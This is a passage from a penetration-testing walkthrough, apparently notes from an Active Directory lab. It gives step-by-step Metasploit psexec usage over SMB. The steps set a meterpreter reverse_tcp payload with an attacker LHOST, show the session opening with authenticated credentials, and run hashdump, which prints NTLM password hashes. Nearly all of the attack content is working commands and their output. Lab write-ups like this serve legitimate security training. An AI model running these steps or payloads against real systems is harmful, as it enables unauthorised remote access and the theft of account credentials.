         Id  Name
        --  ----
    =>  0   Automatic
        1   PowerShell
        2   Native upload
        3   MOF upload
        4   Command
    ```
    
5. Set Target
    
    ```Bash
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set target 2
    target => 2
    ```
    
6. **Specify Payload**:
    
    ```Shell
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST [ATTACKER_IP]
    ```
    
7. **Verify Options and Exploit**:
    
    ```Shell
    show options
    run
    ```
    
8. **Meterpreter Session Opened** 
    
    ```Bash
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> run
    
    [*] Started reverse TCP handler on 192.168.213.160:4444 
    [*] 192.168.213.130:445 - Connecting to the server...
    [*] 192.168.213.130:445 - Authenticating to 192.168.213.130:445|marvel.local as user 'fcastle'...
    [!] 192.168.213.130:445 - peer_native_os is only available with SMB1 (current version: SMB3)
    [*] 192.168.213.130:445 - Uploading payload... abWrnKHB.exe
    [*] 192.168.213.130:445 - Created \abWrnKHB.exe...
    [*] Sending stage (203846 bytes) to 192.168.213.130
    [+] 192.168.213.130:445 - Service started successfully...
    [*] 192.168.213.130:445 - Deleting \abWrnKHB.exe...
    [*] Meterpreter session 1 opened (192.168.213.160:4444 -> 192.168.213.130:51972) at 2025-01-06 19:55:58 +0400
    
    (Meterpreter 1)(C:\Windows\system32) >
    ```
    
9. Useful commands
    1. Hashdump
        
        ```Bash
        (Meterpreter 1)(C:\Windows\system32) > hashdump
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:627a55d9b030f24af2c8f1a73a8b079a:::
        DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:16f0162fe46f7f1af9939f27ad5a8d6d:::
        (Meterpreter 1)(C:\Windows\system32) > 
        ```
        